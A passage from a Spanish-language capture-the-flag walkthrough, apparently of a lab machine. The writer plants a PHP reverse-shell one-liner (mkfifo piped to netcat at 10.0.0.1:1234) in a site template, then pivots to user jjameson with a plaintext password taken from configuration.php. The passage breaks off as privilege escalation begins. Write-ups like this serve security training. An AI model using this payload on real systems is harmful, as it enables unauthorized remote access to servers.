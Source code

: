 Esto nos permitirá ver el código fuente del sitio y, lo más importante, editarlo.

![15]

Para poder obtener una reverse shell, basta con colocar el código php que ejecute una instrucción en la máquina víctima, la cual es esa shell que queremos obtener (y que ya hemos visto en máquinas anteriores):

    <?php echo "<pre>" . shell_exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f") . "</pre>"; ?>

Posteriormente, guardamos el archivo con el botón **Save** y por último le damos en **Template Preview** (antes de hacer este último paso, ya debemos estar en escucha con netcat para recibir la shell):

![16]

Una vez le demos en Template Preview, veremos una página en blanco que se queda cargando, es normal:

![17]

Por otro lado, en el netcat ya habremos obtenido la reverse shell y ganado acceso al sistema.

![18]

# Horizontal User Pivoting
Como podemos observar, hemos ingresado al sistema como el usuario **apache**, sin embargo, el verdadero usuario de esta máquina es **jjameson**. Dado que las credenciales que obtuvimos por medio del SLQi no son válidas en este contexto, deberemos buscar la forma de escalar a este otro usuario.

![19]

Si escaneamos el directorio web, nos encontraremos con un archivo llamado **configuration.php**. Estos archivos siempre hay que tenerlos en cuenta ya que son muy valiosos; muchas veces, suelen incluir contraseñas guardadas en texto plano. Para nuestra suerte, este es nuestro caso:

![20]

Si intentamos migrar a este usuario empleando esta contraseña, veremos que es válida y ahora somos el usuario **jjameson**.

![21]

Ya podemos ver también la flag de usuario:

![22]

# Privilege Escalation
Nuestro primer acercamiento casi siempre es el listado de permisos sudo con los que cuenta nuestro usuario en la máquina, y en este caso, al parecer es el path para convertirse en root.
